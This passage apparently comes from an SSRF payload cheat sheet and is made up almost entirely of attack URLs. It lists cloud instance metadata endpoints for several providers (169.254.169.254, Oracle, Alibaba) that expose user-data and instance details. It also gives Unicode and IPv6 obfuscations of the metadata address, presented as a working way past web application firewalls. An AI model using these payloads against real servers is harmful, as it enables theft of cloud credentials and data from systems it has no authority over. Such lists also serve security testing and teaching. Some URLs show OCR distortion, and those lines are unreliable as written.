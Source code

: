 ```bash
<http://169.254.169.254/metadata/v1/user-data>
<http://169.254.169.254/metadata/v1/hostname>
<http://169.254.169.254/metadata/v1/region>
<http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address>

## Packetcloud

<https://metadata.packet.net/userdata>

## Azure
#  Limited, maybe more exist?
# <https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/>
<http://169.254.169.254/metadata/v1/maintenance>

## Update Apr 2017, Azure has more support; requires the header "Metadata: true"
# <https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service>
<http://169.254.169.254/metadata/instance?api-version=2017-04-02>
<http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text>

## OpenStack/RackSpace 
# (header required? unknown)
<http://169.254.169.254/openstack>

## HP Helion 
# (header required? unknown)
<http://169.254.169.254/2009-04-04/meta-data/> 

## Oracle Cloud
<http://192.0.0.192/latest/>
<http://192.0.0.192/latest/user-data/>
<http://192.0.0.192/latest/meta-data/>
<http://192.0.0.192/latest/attributes/>

## Alibaba
<http://100.100.100.200/latest/meta-data/>
<http://100.100.100.200/latest/meta-data/instance-id>
<http://100.100.100.200/latest/meta-data/image-id>

## Enclosed Alphanumeric
<http://⑯⑨>。②⑤④。⑯⑨｡②⑤④/
<http://⓪ⓧⓐ⑨>｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
Successfully bypassed a SSRF WAF by using a combination of IPV6 + Unicode. Payload for Metadata instances:
http://[::ⓕⓕⓕⓕ:①⑥⑨。②⑤④。⑯⑨。②⑤④]:80
Check images for response difference between 169.254.169.254 and the above payload I shared
```

## Protocols
